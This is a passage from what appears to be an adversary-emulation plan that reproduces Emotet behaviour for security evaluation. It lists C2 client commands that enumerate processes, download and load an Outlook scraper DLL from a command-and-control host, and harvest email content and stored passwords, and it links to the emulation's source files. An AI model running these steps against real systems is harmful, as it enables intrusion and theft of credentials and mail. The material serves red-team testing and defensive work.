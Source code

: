 One of the emails contains credentials for another user, bill@oz.local, which will be used in the next step.

Download Info:

```
URL (HTTP GET): http://192.168.0.4:80/modules

Download occurs over HTTP. All traffic is AES encrypted and base64 encoded in transit.

File Write:     C:\Windows\SysWOW64\Outlook.dll
```

---

### :biohazard: Procedures

Enumerate processes.

```bash
# Emotet has been observed enumerating local processes.[17]

./evalsC2client.py --set-task DOROTHY_DABB41A5 2
```
[Source Code](../../Resources/Emotet/EmotetClientDLL/EmotetClientDLL/hostdiscovery.cpp#L172)


Download Outlook Scraper DLL from C2 channel (192.168.0.4:80 / HTTP) to current working directory.

```bash
./evalsC2client.py --set-task DOROTHY_DABB41A5 3
```
[Source Code](../../Resources/Emotet/EmotetClientDLL/EmotetClientDLL/comms.cpp#L114)

Load Outlook Scraper DLL into emotet's address space via call to LoadLibraryW() and GetProcAddress().

```bash
./evalsC2client.py --set-task DOROTHY_DABB41A5 4
```
[Source Code](../../Resources/Emotet/EmotetClientDLL/EmotetClientDLL/loadoutlookscraper.cpp#L16)

Scrape email content from Outlook inbox via _popen call to PowerShell.

```bash
# Emotet has been observed leveraging a module that scrapes email data from Outlook.[3]

# Emotet has been observed leveraging a module that retrieves passwords stored on a system for the current logged-on user. [7][3]

./evalsC2client.py --set-task DOROTHY_DABB41A5 5
```
[Source Code](../../Resources/Emotet/OutlookScraper/OutlookScraper/outlook.cpp#L64)

[_popen info, because I've never heard of it either](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/popen-wpopen?view=msvc-160)


Scrape email addresses from inbox.
